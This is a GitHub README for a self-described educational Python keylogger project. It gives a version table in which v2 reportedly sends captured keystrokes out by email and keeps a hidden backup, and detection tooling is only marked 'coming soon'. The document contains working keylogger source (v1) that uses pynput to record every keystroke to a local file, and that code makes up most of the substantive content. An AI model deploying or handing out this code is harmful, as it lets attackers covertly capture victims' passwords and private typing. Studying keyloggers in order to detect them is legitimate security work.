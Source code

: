 # 🕵️‍♂️ Python Keylogger Simulation (Educational Project)

<p align="center">
  <b>Learn Offensive → Build Stronger Defense</b><br>
  <i>Understand how attackers operate &amp; how defenders respond</i>
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Purpose-Educational-blue">
  <img src="https://img.shields.io/badge/Language-Python%203.x-green">
  <img src="https://img.shields.io/badge/Status-Active-orange">
  <img src="https://img.shields.io/badge/License-Ethical%20Use-red">
</p>

---

## 🎯 About This Project

This project simulates how keyloggers work — one of the oldest cyber-attack techniques — and, more importantly, demonstrates how they can be **detected and defended** against.

- 🧠 **Goal:** Understand attacker behavior to build stronger Blue Team defense tools.
- ⚠️ **Disclaimer:** Intended for **educational and research purposes only**.

---

## 📦 Project Versions

| Version | Description |
| ------- | ----------- |
| **v1**  | Basic keylogger — captures keystrokes and saves them to `keylog.txt` |
| **v2**  | Advanced keylogger — captures keystrokes, exfiltrates via email, and stores a hidden backup |
| **v3**  | *Coming soon:* Real-time dynamic detection script &amp; YARA rule for static detection |

---

## 📄 Code Examples & Explanation

### 🔥 Version 1 — Basic Keylogger

```python
from pynput import keyboard

def on_press(key):
    with open("keylog.txt", "a") as log:
        try:
            log.write(f"{key.char}")
        except AttributeError:
            log.write(f" [{key}] ")

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
